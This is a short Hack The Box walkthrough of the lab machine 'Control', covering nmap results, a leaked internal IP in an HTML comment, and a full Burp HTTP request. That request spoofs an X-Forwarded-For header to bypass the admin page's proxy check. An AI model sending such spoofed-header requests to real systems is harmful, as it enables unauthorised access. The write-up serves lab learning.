 # Control
Note: I've been many days with this box, and however, I didn't get root. It's been so hard for me to researching as things as I need. I got some necessary nudges, but it means I've improved a lot for next boxes :) 
Thank yoy community, for helping me with this.

## NMAP
Port 80 IIS
Port 135 RPC
Port 3306 MariaDB

We begin with some opened ports, let's start with the HTTP service:

## Web Service
Important comment:
```
 id="page-wrapper">
		<!-- To Do:
			- Import Products
			- Link to new payment system
			- Enable SSL (Certificates location \\192.168.4.28\myfiles)
		<!-- Header -->
```



If we click on Admin tab, we get the next error: "Access Denied: Header Missing. Please ensure you go through the proxy to access this page"
Also there are some js script to review in "/assets/js/checkValues.js" and "/assets/js/functions.js"

## Burp Suite

For spoof a proxy, we must add the "X-Forwarded-For" header to our request, so let's do it with burp:
Sent:
```
POST /admin.php HTTP/1.1
Host: 10.10.10.167
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.167/about.php
Connection: close
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 192.168.4.28
Content-Length: 0
```

